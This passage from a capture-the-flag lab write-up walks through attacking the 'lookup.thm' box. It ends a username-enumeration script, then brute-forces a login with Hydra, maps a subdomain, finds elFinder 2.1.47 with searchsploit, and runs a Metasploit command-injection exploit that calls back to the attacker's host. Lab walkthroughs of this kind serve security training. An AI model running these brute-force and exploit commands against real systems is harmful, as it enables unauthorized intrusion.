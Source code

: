 ```python
            executor.submit(check_username, session, post_url, username_field, password_field, fake_password, username)

if __name__ == "__main__":
    main()
```

We have managed to extract two usernames `admin` and `jose`. Now, it's time to brute-force the password for these users.
![[Python_Script.png]]

#### Brute Force with Hydra
```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form '/login.php:username=jose&password=^PASS^:F=Wrong' -t 32
```

We've managed to crack the password of the user `jose` and the password is `password123`.
![[Hydra_Password_Brute_Force.png]]
We now use these credentials to login in but like earlier we get nothing. When we inspect the `Network` tab and login with the creds again, we get a new subdomain `files.lookup.thm`. 

This technique is called `Virtual Hosting`, where multiple domain names are hosted on the same IP. The web server uses the `Host header in the HTTP request` to determine which site to server.

We can map this subdomain to the IP like we did earlier.

#### Map the Subdomain
```bash
sudo vim /etc/hosts
IP     files.lookup.thm
```

Once that is done, refresh the page and we are inside the website. There are a lot of files and we can check all of them. However, the files do no contain anything special. So, we check the software and it's version. We can see that it is `elFinder` and it is using the version `2.1.47`. With this information, we can search for it.![[Vulnerable_Software.png]]

#### Search for the Vulnerability
```bash
searchsploit elfinder 2.1.47
```

We can see there are a few vulnerabilities showed up.
![[Searchsploit.png]]

### Initial Access
#### Msfconsole
```bash
search elfinder type:exploit
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection 
set rhosts files.lookup.thm
set lhosts <IP>
run
```
